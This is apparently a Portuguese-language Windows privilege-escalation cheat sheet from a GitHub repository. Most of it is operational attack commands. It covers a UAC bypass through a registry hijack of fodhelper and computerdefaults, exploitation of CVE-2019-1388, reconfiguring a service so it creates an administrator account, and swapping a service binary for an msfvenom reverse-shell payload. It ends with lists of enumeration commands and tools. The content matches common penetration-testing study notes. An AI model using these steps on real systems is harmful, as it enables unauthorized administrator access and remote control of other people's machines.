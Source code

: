 # Escalação de Privilégio Windows

## PrivEsc realizando bypass do UAC
O UAC é o User Access Control do Windows que controla as permissões dos usuários. Podemos utilizar serviços que são executados com privilégios mais altos para fazermos a escalação.

Examinar o manifest das aplicações para descobrir o nível de privilégio em que são executadas.  
`sigcheck.exe -a -m C:\Windows\System32\notepad.exe`

Monitorar os processos das aplicações:
`procmon.exe`

A través da monitoração dos processos **HKCU**, podemos identificar chaves do registro do Windows que a aplicação faz a requisição mas a chave não existe, dessa forma criamos a chave com nosso payload que será executado ao iniciar a aplicação.  
Aplicação vulneráveis a esse ataque: **computerdefaults.exe** e **fodhelper.exe**.

Comando para adicionar a entrada no registro:
`reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f`

## `PrivEsc utilizando a validação de certificados (CVE-2019-1388)  
Essa falha é explorada ao validar um certificado do Windows, primeiro devemos transferir o exploit.exe para a máquina alvo (https://github.com/jas502n/CVE-2019-1388) e executamos o arquivo.  
Será aberta a caixa de dialogo do UAC, vamos na opção de Ver Detalhes e depois Exibir informções sobre o certificado.
Dessa forma será aberta a caixa de dialogo de validação de certificados, nela é possível clicar no proprietário do certificado e seremos redirecionados para a URL utilizando o Internet Explorer. O ponto aqui é que o Internet Explorer é iniciado com usuário SYSTEM, sendo possível abrir um terminal através da caixa de dialogo da opção Salvar Como do navegador.

## `PrivEsc através de serviços em execução  
Nessa escalação podemos utilizar serviços instalados pelo usuário que estão rodando na máquina e possuem acesso completo ao sistema. Vamos verificar os serviços instalados pelo usuário que estão atualmente rodando:  
```
wmic service get Name,State,PathName | findstr "Running" | findstr "Program"
```

Após identificar o serviço, podemos examinar as permissões com um dos comandos abaixo:
```
# Utilitário do Windows, verifique por serviços com a letra (F)
icacls "$PATH"

# Pacote SysinternalSuite da Microsoft
accesschk.exe -wvcu "Users" *

# Utilitário service do Windows
sc query $SERVICE
sc qc $SERVICE
```

Á partir desse ponto podemos seguir com dois métodos:

### Método I - Manipulando o path do serviço  
Nesse método, o usuário deverá ter permissão para manipular as configurações do serviço. Com o serviço vulnerável identificado, devemos alterar o Path onde o serviço é executo e incluimos nosso payload.
```
sc config $SERVICE binPath="net user hack Admin@123 /add"
```

Nesse momento devemos apenas reinicar o serviço e o payload será executado.
```
# Para o serviço
sc stop $SERVICE

# Iniciar o serviço
sc start $SERVICE
```
## Método II - Manipulando o executavel do serviço
Nesse outro método vamos manipular o executavel do serviço vulnerável. Primeiro devemos gerar nosso exploit de shell reversa e enviar para a máquina alvo.
```
msfvenom -p windows/shell_reverse_tcp lhost=$LHOST lport=LPORT -f exe > exploit.exe
```
Após enviar o exploit para o alvo, faça a alteração do serviço utilizando o `move` e reinicie a máquina alvo com `shutdown /r /t 0`.

## Ferramentas

### Enumeração  
- **WinPEAS**
- **WindowsPrivCheck**

### Pesquisa por vulnerabilidades
**Windows Exploit Suggester (WES-NG)**
Gere um arquivo systeminfo com os dados do alvo:
`systeminfo > systeminfo.txt`  
Coloque o systeminfo na raiz do script e busque por vulnerabilidades com exploits disponíveis:  
`python3 wes.py -e systeminfo.txt`

## Comandos básicos para enumeração    
Busca por arquivos em todos os diretórios  
`where /R c:\ $FILE`  

Busca por strings em todos os diretórios  
`findstr /s "$STRING" *.txt`  

Filtrar saídas concatenando comandos
`findstr /C:"$STRING"`  

Detalhe de todos usuários
`net user`  

Detalhes do usuário  
`net user $USER`  

Nome do host  
`hostname`  

Informações do sistema  
`systeminfo`  

Visualizar processos em execução  
`tasklist`  

Visualizar o serviço associado ao processo  
`tasklist /SVC`  

Visualizar hosts que a máquina se comunica internamente  
`arp -a`  

Tabela de roteamento  
`route print`  

Visualizar portas abertas  
`netstat -ano`  

Ver informações de um serviço específico
`sc query $SERVICE`

Visualizar status do Firewall  
`netsh advfirewall show currentprofile`